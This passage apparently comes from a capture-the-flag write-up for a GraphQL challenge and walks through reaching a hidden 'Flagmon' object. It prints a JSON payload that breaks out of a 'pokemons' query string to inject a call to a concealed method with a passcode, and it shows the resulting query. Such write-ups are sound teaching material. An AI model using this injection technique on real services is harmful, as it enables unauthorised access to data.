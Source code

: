 
We can see that we need `passcode` and `name` with both as string as arguments of the query.

## Step 7: Query the Flagmon
If we put empty string in `passcode` and `Flagmon` in `name`, we still don't get the `Digimon` object.

The description mentioned that the passcode is `dish-percent-drop-brief`, so let's put that into our query.

```json
{
    "pokemons":["\") {id} digimOwOUwURawrn38408375018458385023841203489738570123(passcode:\"dish-percent-drop-brief\", name:\"Flagmon\") { name } _0:pokemon(name:\""],
    "compares":["id"]
}
```
```graphql
{
    _1:pokemon(name:"") {
        id
    } 
    digimOwOUwURawrn38408375018458385023841203489738570123(passcode:"dish-percent-drop-brief", name:"Flagmon") {
        name
    }
    _0:pokemon(name:"") {
        id
    }
}
```

![](49_step_7.png)

By performing a simple query, we can find the `Flagmon`. Now we have to do is to get all fields of `Flagmon`.


[^1]: In fact these are test queries I intended to left behind. Maybe act as an easter egg.
[^2]: The reason I didn't put the flag in the field `flag` is because I don't want people to be guessy and guess the fields of `Digimon` without introspection. However, if you can get the query method names and other stuff, getting all fields from `Digimon` isn't a issue here.